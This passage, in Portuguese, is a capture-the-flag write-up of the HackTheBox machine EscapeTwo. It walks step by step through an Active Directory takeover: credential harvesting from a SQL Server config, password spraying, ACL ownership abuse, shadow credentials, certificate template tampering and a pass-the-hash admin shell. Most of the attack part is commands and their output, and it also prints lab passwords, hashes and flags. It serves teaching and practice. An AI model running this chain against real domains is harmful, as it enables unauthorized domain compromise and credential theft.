MSSQL       10.10.11.51     1433   DC01             QUIET="True"
MSSQL       10.10.11.51     1433   DC01             FEATURES=SQL
MSSQL       10.10.11.51     1433   DC01             INSTANCENAME="SQLEXPRESS"
MSSQL       10.10.11.51     1433   DC01             INSTANCEID="SQLEXPRESS"
MSSQL       10.10.11.51     1433   DC01             RSSVCACCOUNT="NT Service\ReportServer$SQLEXPRESS"
MSSQL       10.10.11.51     1433   DC01             AGTSVCACCOUNT="NT AUTHORITY\NETWORK SERVICE"
MSSQL       10.10.11.51     1433   DC01             AGTSVCSTARTUPTYPE="Manual"
MSSQL       10.10.11.51     1433   DC01             COMMFABRICPORT="0"
MSSQL       10.10.11.51     1433   DC01             COMMFABRICNETWORKLEVEL=""0"
MSSQL       10.10.11.51     1433   DC01             COMMFABRICENCRYPTION="0"
MSSQL       10.10.11.51     1433   DC01             MATRIXCMBRICKCOMMPORT="0"
MSSQL       10.10.11.51     1433   DC01             SQLSVCSTARTUPTYPE="Automatic"
MSSQL       10.10.11.51     1433   DC01             FILESTREAMLEVEL="0"
MSSQL       10.10.11.51     1433   DC01             ENABLERANU="False"
MSSQL       10.10.11.51     1433   DC01             SQLCOLLATION="SQL_Latin1_General_CP1_CI_AS"
MSSQL       10.10.11.51     1433   DC01             SQLSVCACCOUNT="SEQUEL\sql_svc"
MSSQL       10.10.11.51     1433   DC01             SQLSVCPASSWORD="WqSZAF6CysDQbGb3"
MSSQL       10.10.11.51     1433   DC01             SQLSYSADMINACCOUNTS="SEQUEL\Administrator"
MSSQL       10.10.11.51     1433   DC01             SECURITYMODE="SQL"
MSSQL       10.10.11.51     1433   DC01             SAPWD="MSSQLP@ssw0rd!"
MSSQL       10.10.11.51     1433   DC01             ADDCURRENTUSERASSQLADMIN="False"
MSSQL       10.10.11.51     1433   DC01             TCPENABLED="1"
MSSQL       10.10.11.51     1433   DC01             NPENABLED="1"
MSSQL       10.10.11.51     1433   DC01             BROWSERSVCSTARTUPTYPE="Automatic"
MSSQL       10.10.11.51     1433   DC01             IAcceptSQLServerLicenseTerms=True
```

Possíveis credenciais de acesso ao ***Windows*** do usuário ***sql_svc*** 

```bash
SQLSVCACCOUNT="SEQUEL\sql_svc"
SQLSVCPASSWORD="WqSZAF6CysDQbGb3"
```

Mas, se pararmos para pensar, não faz muito sentido um usuário com nome ***sql_svc***  ter acesso sistema de arquivos do ***Windows***, correto?

Então isso me fez testar se realmente era possível acessar a máquina com as credenciais que acabamos de encontrar, o que resultou em erro….

```bash
┌─[✗]─[parrot@parrot]─[~/Desktop/escape2/]
└──╼ $nxc winrm 10.10.11.51 -u "sql_svc" -p "WqSZAF6CysDQbGb3"
WINRM       10.10.11.51     5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:sequel.htb)
WINRM       10.10.11.51     5985   DC01             [-] sequel.htb\sql_svc:WqSZAF6CysDQbGb3
```

Não temos autorização para tal 😭


Então, pensando um pouco, qual foi o último usuário que não é administrador e também não é o ***sql_svc*** dentro das pastas do ***Windows***? Sim ele mesmo, r***yan***!

Com isso podemos tentar outra técnica interessante e muito utilizada por hackers ao redor do mundo chamada ***password spraying.*** Que basicamente consiste em tentar várias senhas diferentes para o mesmo usuário a fim de realizar um login bem sucedido.

```bash
┌─[parrot@parrot]─[~/Desktop/escape2]
└──╼ $nxc winrm  10.10.11.51 -u "ryan" -p passwords.txt
WINRM       10.10.11.51     5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:sequel.htb)
WINRM       10.10.11.51     5985   DC01             [-] sequel.htb\ryan:0fwz7Q4mSpurIt99
WINRM       10.10.11.51     5985   DC01             [-] sequel.htb\ryan:86LxLBMgEWaKUnBG
WINRM       10.10.11.51     5985   DC01             [-] sequel.htb\ryan:Md9Wlq1E5bZnVDVo
WINRM       10.10.11.51     5985   DC01             [-] sequel.htb\ryan:MSSQLP@ssw0rd!
WINRM       10.10.11.51     5985   DC01             [+] sequel.htb\ryan:WqSZAF6CysDQbGb3 (Pwn3d!)
```


Agora sim, temos as credenciais de mais um usuário do sistema, e as coisas vão ficando cada vez piores para o nosso alvo.

```bash
┌─[parrot@parrot]─[~/Desktop/escape2]
└──╼ $evil-winrm -i 10.10.11.51 -u "ryan" -p "WqSZAF6CysDQbGb3"

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\ryan\Documents> whoami
sequel\ryan
*Evil-WinRM* PS C:\Users\ryan\Documents>
```

Basta agora procurar e ver se encontramos a chave do usuário que é a primeira flag do nosso CTF

```bash
*Evil-WinRM* PS C:\Users\ryan\Desktop> cd ..
*Evil-WinRM* PS C:\Users\ryan> ls

    Directory: C:\Users\ryan

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---         6/9/2024   4:24 AM                Desktop
d-r---         2/5/2025   3:04 PM                Documents
d-r---        9/15/2018  12:19 AM                Downloads
d-r---        9/15/2018  12:19 AM                Favorites
d-r---        9/15/2018  12:19 AM                Links
d-r---        9/15/2018  12:19 AM                Music
d-r---        9/15/2018  12:19 AM                Pictures
d-----        9/15/2018  12:19 AM                Saved Games
d-r---        9/15/2018  12:19 AM                Videos

*Evil-WinRM* PS C:\Users\ryan> ls Desktop

    Directory: C:\Users\ryan\Desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         2/5/2025   9:39 AM             34 user.txt

*Evil-WinRM* PS C:\Users\ryan> type Desktop/user.txt
c7e232c0db694cd116393ebd71975e8b
*Evil-WinRM* PS C:\Users\ryan>
```


# Escalação de privilégios

Então o que conseguimos até aqui? 

- Acesso ao banco de dados ***SQLServer 2019***
- Acesso ao usuário ***ryan***

Agora temos o suficiente para começar a escalar privilégios. 

Nesse momento, você pode ficar meio perdido, eu também fiquei, pois, tenho acesso ao banco de dados, e um usuário do Windows Server, mas e agora, pra onde eu vou? Preciso ganhar acesso de administrador, mas por onde eu começo? De onde eu tiro mais informações? Qual o próximo passo? 

E foi fazendo essas perguntas e também lendo o forum oficial da ***EscapeTwo*** que cheguei a uma ferramenta que eu não conhecia até então . . . ***Bloodhound***!

Ele mapeia e identifica relações de permissões em redes **Active Directory**, ajudando a enumerar, visualizar e explorar permissões entre usuários, grupos, computadores e domínios.

Para utilizar o Bloodhound você vai precisar instalar a ferramenta rodando o seguinte comando:

```bash
pip install bloodhound
```

Feito a instalação, inicie o banco de dados ***Neo4J*** que já vem instalado  no ***ParrotOS***  que vai ser utilizado pelo Bloodhound para armazenar e consultar as informações sobre as permissões e relações em uma rede **Active Directory.**

```bash
sudo neo4j console
```

Agora você se pergunta, como assim? Quais Informações? Quais permissões? Onde eu encontro isso?

É aqui que a mágica acontece, vamos rodar o seguinte comando para obtermos os dados:

```bash
bloodhound-python -u 'ryan' -p 'WqSZAF6CysDQbGb3' -d sequel.htb -ns 10.10.11.51 -c All
```

Esse comando vai fazer uma varredura por todo o ***AD***  e mapear groupos, usuários, computadores, permissões e etc…

```bash
(venv) ┌─[parrot@parrot]─[~/Desktop/escape2]
└──╼ $bloodhound-python -u 'ryan' -p 'WqSZAF6CysDQbGb3' -d sequel.htb -ns 10.10.11.51 -c All
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: sequel.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc01.sequel.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc01.sequel.htb
INFO: Found 10 users
INFO: Found 59 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC01.sequel.htb
INFO: Done in 00M 32S

```

Todos esses dados serão estruturados e separados em arquivos JSON que vamos agora enviar para a interface gráfica do ***Bloodhound***

```bash
(venv) ┌─[parrot@parrot]─[~/Desktop/escape2]
└──╼ $ls -l
total 156
-rw-r--r-- 1 parrot parrot  3594 fev  6 00:44 20250206004332_computers.json
-rw-r--r-- 1 parrot parrot 25049 fev  6 00:43 20250206004332_containers.json
-rw-r--r-- 1 parrot parrot  3060 fev  6 00:43 20250206004332_domains.json
-rw-r--r-- 1 parrot parrot  3924 fev  6 00:43 20250206004332_gpos.json
-rw-r--r-- 1 parrot parrot 88921 fev  6 00:43 20250206004332_groups.json
-rw-r--r-- 1 parrot parrot  1889 fev  6 00:43 20250206004332_ous.json
-rw-r--r-- 1 parrot parrot 22881 fev  6 00:43 20250206004332_users.json

```

Com o ***neo4j***  rodando , basta digitar o comando:

```bash
bloodhound
```

Agora a interface gráfica vai abrir e você vai poder importar os arquivos ***JSON***  la para dentro e começar a exploração.

Confesso que gastei um tempo tentando encontrar informações relevantes, mas acontece que nem sempre a informação estará em um formato de texto plano ou algo parecido.

Nesse caso pude ver que o usuário ***ryan*** tem uma relação direta com o usuário ***ca_svc.***



Ao clicar em ***ca_svc*** vemos que se trata como o próprio nome já sugere, de um ***Certification Authority*** (Autoridade de Certificação).

Para quem é novo nesse mundo de **Windows Server** e **Active Directory (AD)**, a CA faz parte dos **Active Directory Certificate Services (AD CS)**, que permitem criar e administrar certificados dentro de um ambiente corporativo.  

O que acontece basicamente é que uma **Certification Authority (CA)** é uma entidade responsável por emitir e gerenciar certificados digitais dentro uma infraestrutura de chave pública (**PKI - Public Key Infrastructure**). Ele tem a  responsabilidade de autenticar a identidade de usuários, computadores e serviços emitindo **certificados digitais** que garantem a segurança da comunicação e a identidade das entidades dentro da rede.



Sabendo disso, e tendo o acesso ao ***ryan***  temos algo potencialmente perigoso caso exista alguma falha no fluxo de autenticação desses certificados.

Agora vamos recorrer ao ***OSINT***  pois esse tipo de informação específica é muito pontual e nem todo mundo vai ter esse conhecimento ou em determinado momento ainda pode haver a possibilidade de não ter conteúdo sobre uma falha do tipo. O que não é o nosso caso! 

Basicamente vamos explorar uma vulnerabilidade conhecida chamada [***CVE-2022-26923](https://www.hackthebox.com/blog/cve-2022-26923-certifried-explained) .***

Usando um pouco nossa lógica aqui, pensa comigo …. se ***ryan*** está diretamente associado ao ***ca_svc***, não seria possível transferir a autoridade desse certificado para o ***ryan***?

Partindo dessa premissa podemos chegar a uma ferramenta que vai nos ajudar a fazer isso chamada [***bloodyAD](https://github.com/CravateRouge/bloodyAD).*** Você pode ler mais sobre ela diretamente no repositório do Github.

O comando que vamos usar para realizar tal ação é o seguinte:

```bash

(venv) ┌─[parrot@parrot]─[~/Desktop/escape2]
└──╼ $bloodyAD --host '10.10.11.51' -d 'escape2.htb' -u 'ryan' -p 'WqSZAF6CysDQbGb3' set owner 'ca_svc' 'ryan'
[+] Old owner S-1-5-21-548670397-972687484-3496335370-512 is now replaced by ryan on ca_svc
```

E como você pode ver, funcionou! Agora ryan tem os privilégios de **Certification Authority (CA).**

O próximo comando basicamente vai nos dar **controle total** sobre o serviço  `ca_svc`, ajustando a DACL para permitir isso.

```bash
(venv) ┌─[parrot@parrot]─[~/Desktop/escape2]
└──╼ $dacledit.py -action 'write' -rights 'FullControl' -principal 'ryan' -target 'ca_svc' 'sequel.htb'/"ryan":"WqSZAF6CysDQbGb3"
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] DACL backed up to dacledit-20250206-112058.bak
[*] DACL modified successfully!
```

**O que o comando faz:**

- DACL significa Discretionary Access Control List (Lista de Controle de Acesso Discricionária) e é um tipo de lista usada em sistemas operacionais para gerenciar permissões em recursos como arquivos, pastas ou serviços.
- DACL define quais usuários ou grupos têm acesso a um recurso e quais permissões eles possuem (como ler, escrever, executar, etc.).
- Quando você modifica uma DACL, você altera as permissões de acesso para os usuários ou grupos especificados.
- **Usuário `ryan`** foi **adicionado** à **DACL** do serviço `ca_svc` com **controle total** (FullControl).
- A **DACL** do serviço foi **modificada** para permitir que `ryan` tenha todas as permissões sobre o serviço.
- O script fez um **backup da configuração anterior** para possível recuperação.

Bom, agora temos controle sobre o **Certification Authority (CA)** e domínio total sobre o usuário ***ca_svc*.** Qual o próximo passo?

Gerar nosso certificado de autoridade malicioso para realizar a autenticação:

```bash
(venv) ┌─[parrot@parrot]─[~/Desktop/escape2]
└──╼ $certipy shadow auto -u 'ryan@sequel.htb' -p "WqSZAF6CysDQbGb3" -account 'ca_svc' -dc-ip '10.10.11.51' -target dc01.sequel.htb -ns 10.10.11.51
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'ca_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '81b327f2-913f-8ed0-8f02-0d7683e4d812'
[*] Adding Key Credential with device ID '81b327f2-913f-8ed0-8f02-0d7683e4d812' to the Key Credentials for 'ca_svc'
[*] Successfully added Key Credential with device ID '81b327f2-913f-8ed0-8f02-0d7683e4d812' to the Key Credentials for 'ca_svc'
[*] Authenticating as 'ca_svc' with the certificate
[*] Using principal: ca_svc@sequel.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'ca_svc.ccache'
[*] Trying to retrieve NT hash for 'ca_svc'
[*] Restoring the old Key Credentials for 'ca_svc'
[*] Successfully restored the old Key Credentials for 'ca_svc'
[*] NT hash for 'ca_svc': 3b181b914e7a9d5508ea1e20bc2b7fce
```

**O que o comando faz:**

- **Geração de Certificado e Credenciais**:
    - O Certipy começou visando o usuário `ca_svc` no domínio `sequel.htb`.
    - Ele gerou um **certificado** para o usuário `ca_svc`, provavelmente com a intenção de usá-lo para autenticação no Active Directory (AD).
- **Criação de Key Credential**:
    - Em seguida, o Certipy gerou uma **credencial de chave** (Key Credential), associada ao **DeviceID** `81b327f2-913f-8ed0-8f02-0d7683e4d812`.
    - Essa credencial foi adicionada aos **Key Credentials** do usuário `ca_svc` no AD. Isso é essencial para a autenticação de máquinas/usuários no AD usando o certificado gerado.
- **Autenticação com o Certificado**:
    - Após adicionar a chave, o Certipy tentou autenticar o usuário `ca_svc` no domínio, utilizando o novo certificado gerado. Ele fez isso com o **principal** `ca_svc@sequel.htb`.
    - O comando então tentou obter o **Ticket Granting Ticket (TGT)**, que é o primeiro passo para obter autenticação no AD.
- **Obtenção do TGT**:
    - O Certipy conseguiu obter com sucesso o **TGT** para o usuário `ca_svc`. O TGT é um ticket do Kerberos que serve para autorizar o acesso ao sistema ou recursos em uma rede que usa o protocolo Kerberos para autenticação.
- **Armazenamento do Cache de Credenciais**:
    - O **cache de credenciais** (arquivos de credenciais do Kerberos) foi salvo no arquivo `ca_svc.ccache`, que é utilizado para armazenar credenciais temporárias de autenticação, permitindo um login sem necessidade de reautenticação a cada solicitação.
- **Recuperação do NT Hash**:
    - Em seguida, o Certipy tentou recuperar o **hash NT** da senha do usuário `ca_svc`. O hash NT é uma versão criptografada da senha do usuário, que pode ser usado em ataques como **pass-the-hash**.
    - O Certipy foi bem-sucedido em recuperar o hash NT para `ca_svc`, que é o valor `3b181b914e7a9d5508ea1e20bc2b7fce`.
- **Restaurando Credenciais Anteriores**:
    - Após a obtenção do hash NT, o Certipy restaurou as **credenciais anteriores** de `ca_svc`, provavelmente para não deixar vestígios da manipulação de credenciais.

Agora que nós conseguimos gerar o certificado e salvamos as credenciais válidas dentro do  `ca_svc.ccache`  vamos utilizar o [***Kerberos***](https://www.keepersecurity.com/pt_BR/resources/glossary/what-is-kerberos/), que está rodando na nossa máquina, se você olhar no resultado do nosso ***NMAP***  vai poder confirmar.

```bash
(venv) ┌─[parrot@parrot]─[~/Desktop/escape2]
└──╼ $KRB5CCNAME=$PWD/ca_svc.ccache certipy template  -k -template DunderMifflinAuthentication  -target dc01.sequel.htb -dc-ip 10.10.11.51
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating certificate template 'DunderMifflinAuthentication'
[*] Successfully updated 'DunderMifflinAuthentication'
```

**O que o comando faz:**

- Usa a variável de ambiente usada pelo Kerberos (**`KRB5CCNAME`** ), que aponta para o **arquivo de cache de credenciais** (`ca_svc.ccache`).
- Usa o cache de credenciais Kerberos (`ca_svc.ccache`) para autenticação.
- Atualiza o modelo de certificado chamado `DunderMifflinAuthentication` no Active Directory.
- O comando se conecta ao controlador de domínio `dc01.sequel.htb` (endereço IP `10.10.11.51`) e realiza a atualização.

Partindo para o próximo passo, depois de ter o certificado atualizado, vamos requisitar um certificado para o usuário ***Administrator.***

```bash
(venv) ┌─[parrot@parrot]─[~/Desktop/escape2]
└──╼ $certipy req -u ca_svc -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -ca sequel-DC01-CA -target dc01.sequel.htb -dc-ip 10.10.11.51 -template DunderMifflinAuthentication -upn Administrator@sequel.htb -ns 10.10.11.51 -dns 10.10.11.51
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 9
[*] Got certificate with multiple identifications
    UPN: 'Administrator@sequel.htb'
    DNS Host Name: '10.10.11.51'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator_10.pfx'
```

**O que o comando faz:**

- **`u ca_svc`**: Usuário que está solicitando o certificado.
- **`hashes`**: Utiliza o **hash NTLM** do usuário para autenticação (não a senha em texto claro).
- **`ca sequel-DC01-CA`**: Nome da **Certification Authority (CA)**.
- **`dc-ip` e `dns`**: Definem o **endereço IP** e **DNS** do controlador de domínio.
- **`template DunderMifflinAuthentication`**: Modelo de certificado a ser usado.
- **`upn Administrator@sequel.htb`**: Nome de usuário (UPN) associado ao certificado.
- Certificado e chave armazenados no arquivo **`administrator_10.pfx`**

Agora podemos de fato autenticar no servidor usando o novo certificado que acabamos de gerar:

```bash
(venv) ┌─[parrot@parrot]─[~/Desktop/escape2]
└──╼ $certipy auth -pfx administrator_10.pfx -dc-ip 10.10.11.51
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Found multiple identifications in certificate
[*] Please select one:
    [0] UPN: 'Administrator@sequel.htb'
    [1] DNS Host Name: '10.10.11.51'
> 0
[*] Using principal: administrator@sequel.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:7a8d4e04986afa8ed4060f75e5a0b3ff
```

Pronto! Obtivemos o hash de acesso e agora é a hora da verdade …

```bash
(venv) ┌─[parrot@parrot]─[~/Desktop/escape2]
└──╼ $evil-winrm -i 10.10.11.51 -u administrator -H "7a8d4e04986afa8ed4060f75e5a0b3ff"

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
sequel\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
*Evil-WinRM* PS C:\Users\Administrator> dir

    Directory: C:\Users\Administrator

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---         1/4/2025   7:58 AM                3D Objects
d-r---         1/4/2025   7:58 AM                Contacts
d-r---         1/4/2025   7:58 AM                Desktop
d-r---         1/4/2025   7:58 AM                Documents
d-r---         1/4/2025   8:31 AM                Downloads
d-r---         1/4/2025   7:58 AM                Favorites
d-r---         1/4/2025   7:58 AM                Links
d-r---         1/4/2025   7:58 AM                Music
d-r---         1/4/2025   7:58 AM                Pictures
d-r---         1/4/2025   7:58 AM                Saved Games
d-r---         1/4/2025   7:58 AM                Searches
d-r---         1/4/2025   7:58 AM                Videos

*Evil-WinRM* PS C:\Users\Administrator> dir Desktop

    Directory: C:\Users\Administrator\Desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         2/6/2025   6:00 AM             34 root.txt

*Evil-WinRM* PS C:\Users\Administrator> type Desktop/root.txt
c23e2280d58b5ce119156e63bcdef553
*Evil-WinRM* PS C:\Users\Administrator>
```


E foi assim que ganhei o acesso root do ***EscapeTwo.***

Essa máquina é considerada por muitos uma máquina iniciante, porém, um iniciante em pentest pode não necessariamente ser novato em tecnologia como um todo, e na minha visão tem algumas particularidades desse CTF que requerem alguns conhecimentos:

- Entender como funciona o Windows Server
- Entender como funciona o SQLServer
- Conhecer bem o funcionamento de IP, DNS, TCP, SMB, LDAP, MSSQL
- Entender como uma authenticação baseada em Tickets funciona
- Conhecer sobre Kerberos
- Conhecimento sobre certificados de autoridade e como eles se associam a um usuário e domínio
- Bom domínio sobre técnicas de ***OSINT*** (*que foi fundamental nesse caso*)

Mas e aí, curtiu essa máquina? Qual nível de dificuldade você avaliaria?  

Bom, por hoje é isso, espero ter ajudado, e até a próxima!
